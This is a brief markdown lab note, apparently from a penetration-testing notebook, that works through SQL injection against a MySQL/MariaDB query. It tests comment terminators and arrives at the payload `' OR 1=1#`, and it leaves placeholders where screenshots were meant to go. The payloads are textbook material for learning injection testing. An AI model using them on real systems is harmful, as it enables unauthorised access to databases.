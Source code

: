 # 02 - Craft Exploit

#### 1.1.1.3 - Joining the Query

^bc051d

Now we need a suffix to terminate to get results. In MySQL we will terminate it with `--` to treat it as a suffix. It will treat it as a comment. We can leverage it to craft the payload to exploit further.

`'--`

`<Insert screenshot>`

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1
```

Looks like it didn't work. Let's instead try adding the `#` as a suffix.

`'#`

`<Insert screenshot>`

We have no errors.

### Craft Payload

This is the syntax with a place holder of SQL payload.

`'<SQL_Payload>#`

`' OR 1=1#`

`<Insert screenshot>`
